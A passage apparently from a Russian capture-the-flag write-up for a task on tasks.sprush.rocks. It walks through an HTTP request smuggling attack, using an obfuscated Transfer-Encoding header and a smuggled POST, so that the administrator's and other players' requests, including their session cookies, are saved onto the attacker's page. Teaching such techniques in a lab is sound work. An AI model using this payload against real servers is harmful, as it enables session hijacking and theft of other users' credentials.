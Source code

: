После этого запроса мы должны собрать новый, чтобы сохранить себе на странице HTTP запрос администратора (и не только, так как возможен перехват запросов других игроков).  
Для удобства можем воспользоваться готовым запросом, который отправляется при создании поста.

```
POST /user/* HTTP/1.1
Host: tasks.sprush.rocks:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Origin: http://tasks.sprush.rocks:8080
Connection: close
Referer: http://tasks.sprush.rocks:8080/user/*
Cookie: session=*
Upgrade-Insecure-Requests: 1

csrf_token=*&submit=Share&post=
```

Вместо `*` в url подставить свой зарегистрированный логин, в куках - свою сессию, вместо `*` в теле запроса -  свой токен. 
Итоговый вид запроса:

```
GET /login HTTP/1.1
Host: tasks.sprush.rocks:8080
Content-Length: *
Connection: keep-alive
Transfer-Encoding:<символ \x0c>chunked


1
A
0

POST /user/* HTTP/1.1
Host: tasks.sprush.rocks:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Origin: http://tasks.sprush.rocks:8080
Connection: close
Referer: http://tasks.sprush.rocks:8080/user/*
Cookie: session=*
Upgrade-Insecure-Requests: 1

csrf_token=*&submit=Share&post=
```
